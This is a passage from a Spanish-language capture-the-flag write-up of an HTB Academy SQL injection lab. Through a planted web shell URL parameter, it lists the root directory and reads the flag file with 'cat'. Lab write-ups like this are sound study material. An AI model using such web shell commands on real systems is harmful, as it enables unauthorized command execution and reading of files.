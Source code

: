 ![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-66.png)

```sh
http://83.136.252.199:38757/dashboard/shell.php?comando=ls /
```

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-67.png)

He localizado el fichero de la flag `flag_cae1dadcd174.txt`. Mediante la injeccion del comando `cat /flag_cae1dadcd174.txt` obtengo la flag

```sh
http://83.136.252.199:38757/dashboard/shell.php?comando=cat%20/flag_cae1dadcd174.txt
```

![alt text](../assets/images/HTB_Academy_SQLi_Fundamentals/image-68.png)